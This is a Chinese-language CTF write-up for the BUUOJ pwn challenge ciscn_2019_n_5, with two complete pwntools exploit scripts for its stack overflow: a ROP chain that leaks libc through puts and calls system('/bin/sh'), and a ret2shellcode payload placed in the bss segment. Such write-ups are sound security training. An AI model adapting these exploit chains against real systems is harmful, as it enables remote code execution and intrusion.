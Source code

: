 ```yaml
---
title: ROP ciscn_2019_n_5
tags: [ctf-pwn,exp]
date: 2022-11-16 19:07:00
categories: [ctf-pwn]
excerpt: exp
---
```


**题目**

<https://buuoj.cn/challenges#ciscn_2019_n_5>

![](/img/ciscn_2019_n_5/1.jpg)

依旧是栈溢出，可以构造rop，也可以直接ret2shellcode（没开NX）

由于rop写习惯了，先列出rop的做法

![](/img/ciscn_2019_n_5/2.jpg)

第一个输入随便写，第二个输入开始溢出

![](/img/ciscn_2019_n_5/3.jpg)

溢出30+2+8 = 40个字节，用puts的got表来泄露libc基址

值得注意的是返回main后第二遍溢出时需要栈对齐

**Exp1**

```python
from pwn import *
from LibcSearcher import *

#p = process("./ciscn_2019_n_5")
p = remote('node4.buuoj.cn',27829)

e = ELF("./ciscn_2019_n_5")

main = e.symbols["main"]
puts_got = e.got["puts"]
puts_plt = e.plt["puts"]

pop_rdi = 0x400713
ret = 0x4004c9

p.recvline()
p.sendline(b'aaaa')
p.recvline()

payload = b'a' * 40 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)

p.sendlineafter(b"What do you want to say to me?\n", payload)

puts_addr =  u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))

print(hex(puts_addr))

libc = LibcSearcher('puts', puts_addr)
offset = puts_addr - libc.dump('puts')
system = offset + libc.dump('system')
binsh = offset + libc.dump('str_bin_sh')

p.recvline()
p.sendline(b'aaaa')
p.recvline()

payload = b'a' * 40 + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)
p.sendlineafter(b"What do you want to say to me?\n", payload)
p.interactive()
```



**ret2shellcode**

![](/img/ciscn_2019_n_5/4.jpg)

由于题目给了bss段上100个字节的空间，可以用来写shellcode

需要在注意的包括context.arch设置平台环境

而且特意看了一下 `len(shellcode) `是 48 < 100字节

```python
from pwn import *
from LibcSearcher import *

#p = process("./ciscn_2019_n_5")
p = remote('node4.buuoj.cn',27829)

context.arch = 'amd64'
context.log_level = 'debug'
shellcode = asm(shellcraft.sh())
name_addr = 0x0601080
p.sendlineafter("tell me your name\n",shellcode)
payload = b'a' * (0x20 + 0x8) + p64(name_addr)
p.sendlineafter(b"What do you want to say to me?\n",payload)
p.interactive()
```

